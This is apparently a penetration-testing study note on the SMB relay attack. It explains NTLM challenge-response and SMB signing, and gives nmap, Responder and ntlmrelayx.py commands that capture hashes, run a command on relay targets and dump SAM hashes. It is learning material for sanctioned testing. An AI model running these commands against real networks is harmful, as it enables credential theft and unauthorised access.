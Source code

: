
# SMB Relay Attack
In an [SMB](/networking/protocols/SMB.md)-Relay attack, instead of attempting to crack the hashes gathered from the network with [Responder](/PNPT/PEH/active-directory/initial-vectors/responder.md), an attacker relays those hashes to other machines in the hopes that *one will allow them to gain access*.
## Basic Flow
SMB Relay takes advantage of regular authentication attempts by common automated systems on a network. These automated systems perform regular management tasks on devices on the network. To do so, they attempt to logon/ authenticate with any device which connects to the network using [NTLM](/networking/protocols/NTLM.md).
### Normal Function
The service tries to authenticate with the server. The server responds with a challenge, usually 'if you're really the user you say you are, then encrypt this challenge with the user's *password hash* and send it back.'

The service on the client encrypts the challenge w/ the user's password and sends the new value back to the server. The server decrypts the answer with the user's password and, if it decrypts to the original challenge it sent, it authenticates the service.
### Exploitation
An attacker can exploit this vulnerable exchange by capturing the traffic b/w the service and the server, modifying it, and essentially hijacking the authentication by the server of the service (the attacking machine gets authenticated instead).

By hijacking the authentication, the attacker gains access *to the target server which sent the challenge*.
![](PNPT/PNPT-pics/smbrelay.png)
> [Cowdex](https://cowdex.github.io/posts/smb-relay-attack/)
#### Requirements:
- SMB Signing disabled
- Admin credentials: the relayed user credentials *must be admin credentials* or you don't gain much from obtaining them. 
- Additionally, you can't relay the credentials to yourself (attacker). The credential *must be relayed to a different computer*.
## Exploitation
### Identify Hosts without SMB signing
First, we have to find hosts on the target network which have SMB signing disabled.
#### What is SMB signing?
SMB signing is a security mechanism added to the SMB protocol by Microsoft starting with Windows 2000. It protects the integrity of messages sent b/w a client and a server by signing each message with a signature generated via the session key.

This *prevents tampering of the message* by an attacker because any tampering will *change the hash*, thus signaling to the system that the message was compromised in-transit.
#### Using [nmap](/CLI-tools/linux/nmap.md)
Nmap has a script which will report back which hosts on the network have SMB signing disabled. To run it, just use:
```bash
┌──(hakcypuppy㉿kali)-[~]
└─$ nmap --script=smb2-security-mode.nse -p139,445 10.10.10.175
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-27 14:40 GMT
Nmap scan report for egotistical-bank.local (10.10.10.175)
Host is up (0.040s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required  # here

Nmap done: 1 IP address (1 host up) scanned in 1.23 seconds
```
Regardless of the number of targets which come back as not requiring SMB signing, add each one to a file called `targets.txt`.
### Relay w/ [Responder](/cybersecurity/tools/exploitation/responder.md) & `smbrelayx.py`
Once we've found a good host, we're going to use a combination of Responder and `smbrelayx.py`to capture a hash and then relay if (using our own server) to the target.

First, we have to update our Responder configuration so it doesn't act as the server (since the impacket script will do that for us).
`/usr/share/responder/responder.conf`
```bash
[Responder Core]                                                           
; Servers to start                                                                
SQL = On                                                                        
SMB = Off    # this should be off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off   # this should be off                                                     ...
```
#### Responder
The command we give to responder will tell Responder to listen on our specified interface and passively capture hashes on the network:
```bash
respnder -I eth0 -dwPv
```
- `d`: [DHCP](/networking/protocols/DHCP.md) (allows Responder to answer DHCP broadcast requests)
- `w`: [WPAD](/computers/windows/active-directory/WPAD.md) proxy server
- `P`: ProxyAuth (forces NTLM authentication)
- `v`: verbose
#### `ntlmrelayx.py`
The `ntlmrelayx.py` script is from python [impacket](/cybersecurity/tools/exploitation/impacket.md) which will handle relaying the hashes captured by responder to the target devices.
```bash
ntlmrelayx.py -tf targets.txt -smb2support -c 'whoami'
```
- `tf`: target file
- `-smb2support`: support SMB version 2
- `-c`: command to execute on target system
#### Success
Upon successful relay to the target, impacket will print the local SAM hashes for accounts on the target device. Ideally, one of those will be from an Administrator account.

> [!Resources]
> - [Microsoft: Overview of SMB signing](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/overview-server-message-block-signing)
> - [Mark Baggett: SMB Relay Demystified...](https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/)
> - [Cowdex: SMB Relay Attack](https://cowdex.github.io/posts/smb-relay-attack/)
> - My other notes (linked throughout), all of which can be found [here](https://github.com/TrshPuppy/obsidian-notes)


